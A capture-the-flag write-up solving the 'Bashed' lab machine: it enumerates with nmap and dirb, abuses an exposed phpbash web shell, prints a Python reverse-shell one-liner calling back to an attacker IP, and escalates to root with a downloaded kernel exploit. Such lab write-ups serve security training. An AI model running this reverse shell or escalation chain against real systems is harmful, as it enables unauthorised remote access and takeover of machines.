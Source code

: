 ```yaml
---
layout: default
---
```


# Bashed

![](./01.png)

We'll kick ```nmap``` off to see what's what.

![](./02.png)

Looks like all we have to work with is a web server on ```80``` running Apache httpd 2.4.18. 

Let's take a look to see what's running on Apache.

![](./03.png)

![](./04.png)

It looks to be a blog of some sort talking about developing a tool called phpbash, which, if we look at the github page, uses the ```shell_exec``` php function.

Let's run ```dirb``` against the site to see if we can find where phpbash was developed on this server.

![](./05.png)

![](./06.png)

It looks like there's a directory called ```dev```.  Let's take a look to see what's there.

![](./07.png)

Looks like there's a ```phpbash.php``` file, let's use this for our purposes.

![](./08.png)

Looks like we're currently running as the ```www-data``` account.

Let's go after the user flag.

![](./09.png)

Let's try to get a more interactive shell.  First we'll setup a listener.

![](./10.png)

Now we're going to use the following command to make our call back, since we don't have ```netcat``` on this machine.

>
> sudo -i -u scriptmanager python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.██.█",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
>

Let's check our listener to see if it worked.

![](./11.png)

Looks like our connection back is good.  Now let's run ```uname -a``` to see what kernel version of linux we're running.

![](./12.png)

Based on the results, we can search for 4.4.0-62-generic privilege escalation.  We'll be using https://www.exploit-db.com/exploits/41458.

We'll use ```vi``` to paste the code and save it, after which we need to use ```gcc``` to compile the binary file.

![](./13.png)

Once we have the file compiled, we'll serve it up via a python web server.

![](./14.png)

Once that's up, we'll pull down the binary using ```wget``` on the target machine.

![](./15.png)

Now we have to change the file permissions for ```pwn``` using ```chmod``` so that we can execute it, and then do so.

![](./16.png)

Looks like we're now running as root, so let's grab the root flag.

![](./17.png)

That's all for now, folks.

___

[Back](../)
